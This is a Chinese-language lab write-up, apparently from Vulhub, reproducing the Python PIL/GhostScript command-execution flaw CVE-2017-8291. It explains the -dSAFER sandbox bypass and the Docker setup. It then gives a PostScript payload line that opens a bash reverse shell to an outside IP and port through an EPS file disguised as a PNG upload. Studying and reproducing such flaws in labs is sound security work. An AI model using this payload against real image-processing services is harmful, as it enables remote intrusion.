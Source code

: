 

# Python PIL 远程命令执行漏洞 CVE-2017-8291 

## 漏洞描述

Python中处理图片的模块PIL（Pillow），因为其内部调用了GhostScript而受到GhostButt漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

漏洞详情：

- http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/

## 漏洞原理

PIL内部根据图片头（Magic Bytes）判断图片类型，如果发现是一个eps文件（头为`%!PS`），则分发给`PIL/EpsImagePlugin.py`处理。

在这个模块中，PIL调用了系统的gs命令，也就是GhostScript来处理图片文件：

```python
command = ["gs",
            "-q",                         # quiet mode
            "-g%dx%d" % size,             # set output geometry (pixels)
            "-r%fx%f" % res,              # set input DPI (dots per inch)
            "-dBATCH",                    # exit after processing
            "-dNOPAUSE",                  # don't pause between pages,
            "-dSAFER",                    # safe mode
            "-sDEVICE=ppmraw",            # ppm driver
            "-sOutputFile=%s" % outfile,  # output file
            "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                            # adjust for image origin
            "-f", infile,                 # input file
            ]

# 省略判断是GhostScript是否安装的代码
try:
    with open(os.devnull, 'w+b') as devnull:
        subprocess.check_call(command, stdin=devnull, stdout=devnull)
    im = Image.open(outfile)
```

虽然设置了`-dSAFER`，也就是安全模式，但因为GhostScript的一个沙盒绕过漏洞（GhostButt CVE-2017-8291），导致这个安全模式被绕过，可以执行任意命令。

另外，截至目前，GhostScript官方最新版9.21仍然受到这个漏洞影响，所以可以说：只要操作系统上安装了GhostScript，我们的PIL就存在命令执行漏洞。

## 环境搭建

Vulhub运行环境：

```
docker-compose up -d
```

运行后，访问`http://your-ip:8000/`即可看到一个上传页面。

## 漏洞复现

正常功能是我们上传一个PNG文件，后端调用PIL加载图片，输出长宽。但我们可以将可执行命令EPS文件后缀改成PNG进行上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查。

比如[poc.png](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2017-8291/poc.png)，进行上传，即可执行`touch /tmp/awesome_poc`。

![image-20220228145248709](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281452756.png)

将`touch /tmp/awesome_poc`命令改为反弹shell命令：

```
currentdevice null false mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1")
```

成功接收反弹shell：

![image-20220228162022990](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281620079.png)

